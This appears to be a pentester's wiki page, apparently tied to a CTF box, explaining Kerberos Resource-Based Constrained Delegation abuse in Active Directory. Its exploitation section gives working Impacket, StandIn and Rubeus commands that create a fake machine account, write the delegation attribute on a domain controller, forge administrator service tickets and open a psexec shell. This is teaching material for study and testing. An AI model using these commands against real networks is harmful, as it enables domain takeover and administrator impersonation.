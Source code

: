 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Resource-Based

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=vlKwCTvp5_w) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You_do_\(not\)_Understand_Kerberos_Delegation.pdf).
{% endhint %}

## Theory

The trust is configured on the servive that receives delegated credentials (`msDS-AllowsToActOnBehalfOfOtherIdentity`), in this case, `sql01` instead of `web01` (Figure 1). We configure `sql01` to trust `web01` which means that the latter will be able to access the former on behalf of anyone; `web01` has `GenericAll` over `sql01`.

<figure><img src="../../../../.gitbook/assets/delegations_rbcd_vs_rcd.png" alt="" width="563"><figcaption><p>Figure 1: The main difference between CD and RBCD (<em>image taken from</em> <a href="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html"><em>here</em></a><em>)</em>.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/rbcd_wireshark.png" alt=""><figcaption><p>Figure 2: The RBCD process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

## Exploitation

### Prerequisites

1. A domain account with `WRITE` access to the target SPN account for setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to it.
2. Permission to create a SPN account (`MachineAccountQuota`).

### Attack

1. Create a fake computer.
2. Set `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target.
3. Request impersonated Service Tickets (`S4U`) for the target computer.

#### Linux

{% code overflow="wrap" %}
```bash
# add a machine account
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'
# set rbcd attribute
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174
# generate ST for the admin account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'
```
{% endcode %}

For an example of the above process check [Support](../../../../boxes/easy/support.md#rbcd).

#### Windows

```powershell
# create a computer account
.\StandIn.exe --computer <name> --make
# get the SID of the computer account
Get-ADComputer -Filter * | Select-Object Name, SID
# set the RBCD attribute
.\StandIn.exe --computer <dc> --sid <sid>
```

We need the value of the password md4-encrypted for Rubeus.

```bash
python3
>>> import hashlib,binascii
>>> hash = hashlib.new('md4', "<pass>".encode('utf-16le')).digest()
>>> print(binascii.hexlify(hash))
```

{% code overflow="wrap" %}
```powershell
# generate the ST
.\Rubeus.exe s4u /user:<name> /rc4:<value> /impersonateuser:administrator /msdsspn:cifs/<fqdn> /nowrap /ptt
```
{% endcode %}

Although the ticket is generated, it does not work locally. Copy paste the b64 encoded block locally, decode it, convert it, and then use it.

```bash
# paste the ticket
nano ticket.b64
# decode it
cat ticket.b64 | base64 -d > ticket.kirbi
# convert it from kirbit to ccache for Linux usage
impacket-ticketConverter ticket.kirbi ticket.ccache
# export the ticket
export KRB5CCNAME=<ticket-path>
# use the ticket
impacket-psexec -k -no-pass <domain>/administrator@<fqdn> -dc-ip <ip>
```

## Resources

*

